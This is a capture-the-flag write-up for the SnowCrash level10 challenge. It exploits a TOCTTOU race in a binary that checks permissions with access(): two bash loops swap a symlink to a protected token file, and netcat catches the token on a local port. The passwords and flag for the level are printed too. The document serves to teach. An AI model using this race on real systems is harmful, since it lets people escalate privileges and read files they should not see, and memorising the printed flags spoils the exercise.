 When we started the level10, we can see two differents files:
- A binary called **level10**
- A file called **token**

We do not have access to token, but **level10** seems to have it.

**level10** is a binary that connect to a host a send the content of a file to it.

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

by doing ``strings ./level10``, we can see that it use the function *access* and listen to the port *6969*.
By doing some research, it seems that the use of access isn't recommended due to a *TOCTTOU* security issue.

We then wrote two script in the tmp:

- **loop.sh** that create and change the file **/tmp/test**
```bash
#!/bin/bash

while true; do
        echo "" > /tmp/test;
        sleep 0.1;
        ln -sf /home/user/level10/token /tmp/test;
        sleep 0.1;
        rm /tmp/test;
done
```

- **loop_exec.sh** that repeat the call of the binary with **/tmp/test** as parameter
```bash
#!/bin/bash

while true; do
        /home/user/level10/level10 /tmp/test 127.0.0.1
done
```

We execute both script and use *nc* to watch what **level10** is sending.

```bash
level10@SnowCrash:~$ nc -lk localhost 6969
.*( )*.
[...]
.*( )*.
woupa2yuojeeaaed06riuj63c
```
``woupa2yuojeeaaed06riuj63c`` is the token to access flag10.

``` bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```